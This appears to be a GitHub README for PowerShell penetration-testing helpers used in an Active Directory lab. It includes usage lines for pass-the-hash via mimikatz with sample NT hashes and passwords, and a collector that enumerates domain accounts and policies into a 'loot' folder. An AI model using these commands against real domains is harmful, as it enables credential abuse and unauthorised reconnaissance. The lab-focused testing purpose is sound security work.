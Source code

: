 ## xrunas
Elementary script run runas or module pth mimikatz
### Usage
```powershell
xrunas -d essos.local -u khal.drogo -H 739120ebc4dd940310bc4bb5c9d37021
```
```powershell
xrunas -d essos.local -u khal.drogo -p horse
```
```powershell
xrunas -d essos.local -u khal.drogo -p horse -r powershell
```
```powershell
xrunas -d essos.local -u khal.drogo -H 739120ebc4dd940310bc4bb5c9d37021 -mpath "C:\Tools\mimikatz.exe"
```
### Help
```b1
-d -- domain
-u -- username
-p -- password
-H -- NT-hash
-m -- path to mimikatz (default:mimikatz.exe)
-r -- run program (default:pwsh)
```
![3](./images/3.png)
## New-DomainPreset
Elementary script change default parameters (-Server, -Credential) by `$PSDefaultParameterValues` for ActiveDirectory (RSAT) module and some another commandlets.
Add another modules or cmdlets possible in utils.psm1
Also, set global variable `$creds.`
Expected, module ActiveDirectory installed, else you can install with command:
```
Add-WindowsCapability -online -Name Rsat.ActiveDirectory.DS-LDS.Tools~~~~0.0.1.0
```
### Usage
```
New-DomainPreset -d essos.local -u daenerys.targaryen -p 'BurnThemAll!' -s meereen.essos.local -a
```
```
New-DomainPreset -d essos.local -u khal.drogo -p 'horse' -s meereen.essos.local -x
```
```
New-DomainPreset -l
```
```
New-DomainPreset -c 0
```
```
New-DomainPreset -f
```

### Help
```
-s [-Server]   Domain Controller IP or FQDN
-u [-UserName] Target domain account
-p [-Passwd]   Target password
-l [-List]     List history all presets used before
-c [-Choice]   Select preset used before
-f [-Flush]    Flush history all presets used before
-a [-Admin]    Mark new preset as most privileged
-x [-x]        Add PSDrive Active Directory (AD)
-h [-Help]     Print help message
```
![1](./images/1.png)

## Invoke-SimpleCollector
Collect some information about target domain and export to csv file for further export to Excel.
You can use with `New-DomainPreset` or `xrunas`.
Obtain information:
- user accounts;
- machine accounts;
- default domain policy;
- Fine-Grained password policies.

### Usage
```powershell
New-DomainPreset -d essos.local -u khal.drogo -p 'horse' -s meereen.essos.local

Invoke-SimpleCollector
```
```powershell
Invoke-SimpleCollector -Credential $creds -Server meereen.essos.local
```
### Help
```
-s [-Server]     Domain Controller IP or FQDN
-c [-Credential] Credential
-f [-Folder]     Loot folder
```
![2](./images/2.png)
